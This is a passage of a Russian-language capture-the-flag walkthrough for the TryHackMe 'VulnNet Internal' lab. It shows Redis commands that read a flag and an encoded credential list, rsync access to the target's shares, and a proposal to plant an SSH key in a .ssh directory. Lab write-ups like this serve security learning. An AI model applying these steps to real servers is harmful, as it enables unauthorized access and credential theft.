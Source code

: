 Открываем его командой:
```
get "internal flag"
```

Есть еще один интересный файл с названием **authlist**. Посмотри его тип:
```
type "authlist"

list
```

Выведем его содрежимое:
```
lrange "authlist" 1 10000000
```

Получаем закодированную строку. Декодируем ее и получаем следующее:
```
Authorization for rsync://rsync-connect@127.0.0.1 with password <Redacted>
```

<a name="rsync"></a>

## Rsync

Из предыдущего текста можно понять, что мы можем подключиться к машине через **rsync**.

```
rsync rsync://rsync-connect@internal.thm/
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/VulnNet_Internal/7.png)

Просматриваем дальше директории и находим каталог **.ssh**. Можем попробовать загрузить свой ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/VulnNet_Internal/8.png)
